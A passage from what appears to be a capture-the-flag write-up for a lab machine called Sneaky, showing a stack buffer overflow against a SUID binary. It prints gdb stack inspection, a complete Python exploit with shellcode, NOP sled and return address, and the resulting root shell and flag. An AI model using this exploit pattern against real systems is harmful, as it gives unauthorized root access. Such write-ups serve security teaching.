 We added a NOP-sled to ensure that the return address “slides” to the start of the shellcode. 

Finally, we just have to find the EIP (the pointer that contains the address of the next instruction to be executed) on the Sneaky machine.

```bash
❯ python -c 'print("A"*362 + "BBBB")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

thrasivoulos@Sneaky:~$ gdb /usr/local/bin/chal 
(gdb) b main
Breakpoint 1 at 0x8048420
gdb> r <pattern>
<breakpoint hit>
gdb> x/200xw $esp
...
0xbffff728:	0x622f6c61	0x632f6e69	0x006c6168	0x41414141
0xbffff738:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff748:	0x41414141	0x41414141	0x41414141	0x41414141
```

We found our pseudo shellcode at around offset `0xbffff728`. Lets pick an offset that is a little further, maybe around `0xbffff758`.

Finally we can edit the exploit code and execute it.

```python
thrasivoulos@Sneaky:~$ nano exploit.py
#!/usr/bin/env python3

import sys

bufsize = 362

# https://shell-storm.org/shellcode/files/shellcode-811.html
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

nopsled = b"\x90" * (bufsize - len(shellcode))

eip = b"\x58\xf7\xff\xbf"

payload = nopsled + shellcode + eip

sys.stdout.buffer.write(payload)
```

```bash
thrasivoulos@Sneaky:~$ /usr/local/bin/chal $(python3 exploit.py)
# whoami
root
# id  
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
# cat /root/root.txt
01fd0bad43c787abbd4d158675df6d95
```
